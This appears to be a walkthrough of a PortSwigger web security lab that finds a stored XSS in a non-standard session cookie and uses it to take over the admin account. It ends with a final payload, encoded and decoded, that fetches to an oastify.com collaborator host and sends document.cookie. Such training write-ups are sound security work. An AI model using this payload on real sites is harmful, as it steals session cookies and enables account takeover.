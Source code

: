 # Scanning non-standard data structures
# Objective
This lab contains a vulnerability that is difficult to find manually. It is located in a non-standard data structure.\
To solve the lab, use Burp Scanner's Scan selected insertion point feature to identify the vulnerability, then manually exploit it and delete carlos.\
You can log in to your own account with the following credentials: `wiener:peter`

# Solution
## Analysis
|![](Images/image-2.png)|
|:--:| 
| *Non standard session cookie structure* |
|![](Images/image-3.png)|
| *Scan result for selected insertion point - first part of cookie* |
| *Detection of Stored XSS* |

## Exploitation

|![](Images/image-4.png)|
|:--:| 
| *Administrator's session cookie* |
|![](Images/image-5.png)|
| *Deletion of user carlos* |

Final payload:
```
Encoded: '%22%3e%3csvg%2fonload%3dfetch(%60%2f%2f<id>.oastify.com%2f%24%7bencodeURIComponent(document.cookie)%7d%60)%3e%3a2zrSOtTRthaWC4ZqzzEgvXTMxgJKiWZs
Decoded: '"><svg/onload=fetch(`//<id>.oastify.com/${encodeURIComponent(document.cookie)}`)>:2zrSOtTRthaWC4ZqzzEgvXTMxgJKiWZs
```